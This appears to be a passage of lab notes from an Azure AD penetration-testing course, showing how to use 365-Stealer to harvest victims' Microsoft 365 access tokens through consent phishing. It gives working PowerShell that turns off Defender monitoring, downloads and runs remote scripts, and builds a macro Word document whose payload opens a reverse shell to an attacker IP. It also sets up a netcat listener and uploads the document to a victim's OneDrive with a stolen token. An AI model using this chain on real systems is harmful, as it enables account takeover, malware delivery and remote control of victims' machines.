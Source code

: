 #### Get the access tokens
- Browse to http://localhost:82/365-Stealer/yourvictims/
- Click on the user and copy the access token from access_token.txt
- See the "Using Azure tokens" section

#### Get admin consent
- https://docs.microsoft.com/en-us/azure/active-directory/manage-apps/grant-admin-consent
- Global Admin, Application Admin, or Cloud Application Administrator can all grant tenant wide application admin consent
```
- In the left menu go to 'API permissions' and add the mail.read, notes.read.all, mailboxsettings.readwrite, files.readwrite.all, mail.send to Microsoft Graph.
- Refish the user to get a token with the extra permissions
```

#### Create a malicious word document from a licensed vm
```
$passwd = ConvertTo-SecureString "ForCreatingWordDocs@123" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("office-vm\administrator", $passwd)
$officeVM = New-PSSession -ComputerName 172.16.1.250 -Credential $creds
Enter-PSSession -Session $officeVM
Set-MpPreference -DisableRealtimeMonitoring $true

#Generate document
iex (New-Object Net.Webclient).downloadstring("http://172.16.150.38:82/Out-Word.ps1")
Out-Word -Payload "powershell iex (New-Object Net.Webclient).downloadstring('http://172.16.150.38:82/Invoke-PowerShellTcp.ps1');reverse -Reverse -IPAddress 172.16.150.38 -Port 4444" -OutputFile student38.doc

#Copy document
exit
Copy-Item -FromSession $officeVM -Path C:\Users\Administrator\Documents\studentx.doc -Destination C:\AzAD\Tools\studentx.doc
```

#### Start a listener
```
C:\AzAD\Tools\netcat-win32-1.12\nc.exe -lvp 4444
```

#### Abuse the access token - Uploading word doc to OneDrive
```
cd C:\xampp\htdocs\365-Stealer\

& 'C:\Program Files\Python38\python.exe' 365-Stealer.py --upload C:\AzAD\Tools\studentx.doc --token-path C:\xampp\htdocs\365-Stealer\yourVictims\MarkDWalden@defcorphq.onmicrosoft.com\access_token.txt
```

#### Refresh all tokens
- Access token is valid for 1 hour, can't be revoked.
- Refresh token is valid for 90 days but can be revoked.
```
python 365-Stealer.py --refresh-all
```
